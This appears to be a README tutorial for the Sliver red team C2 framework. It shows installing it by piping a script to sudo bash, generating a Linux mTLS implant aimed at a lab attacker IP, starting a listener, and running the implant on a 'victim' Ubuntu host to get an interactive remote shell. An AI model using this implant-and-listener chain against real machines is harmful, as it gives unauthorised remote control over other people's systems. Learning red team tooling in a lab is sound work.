# SLIVER GETTING STARTED TUTORIAL

## Abstract
[*Sliver*](https://github.com/BishopFox/sliver) is an open-source, cross-platform adversary emulation and red team framework:  
It's designed to assist security professionals in conducting comprehensive security assessments by emulating potential adversary behaviors.  
Sliver supports multiple command and control (C2) communication protocols, including Mutual TLS (mTLS), WireGuard, HTTP(S), and DNS, providing flexibility in various testing scenarios.  

This folder contains a basic tutorial to get you started with this tool.  

## Instructions

Donwload and install Sliver with a single command (on linux distros):  
```sh
curl https://sliver.sh/install | sudo bash
```  

Verify that the sliver demon is running:  
```sh
systemctl status sliver
```  

If you’re running Sliver on Linux, you'll need to install MinGW on the Sliver server, this is needed to enable shellcode/staged/DLL payloads:  
```sh
sudo apt install mingw-w64
```  

Now you are ready to connect to the Sliver shell:  
```sh
sliver
```  

You can use the `help` option to see a list of available commands:  
![help](./images/sliver_help.png)  

Now you are ready to generate an `implant`.   
Implants are custom-generated payloads (agents) deployed on target machines to establish communication with the Sliver C2 server.  
They support various communication protocols like mTLS, HTTP(S), DNS, and WireGuard.  

get your attacker machine IP or FQDN and run the following command (this will save the implant in the current folder):  

```sh
generate --mtls 192.168.93.128:443 --os linux --arch amd64 --save payload_linux
```  

Now start a new mtls listener on the attacker machine (Sliver server):  
```sh
mtls --lhost 192.168.93.128 --lport 443
```  

Our victim machine will be an Ubuntu one, copy the implant and paste it on the victim machine.  
Make the implant executable and launch it:  
```sh
sudo chmod +x /tmp/payload_linux &&
./payload_linux
```  

Now list active sessions with `sessions` and connect to ubuntu with `use <SESSION-ID>`:  

![session](./images/active_session.png)  

Now you can run specific Sliver commands or open an interactive shell by typing `shell`...and do nasty things on the victim machine 😈 

![shell](./images/shell.png)  



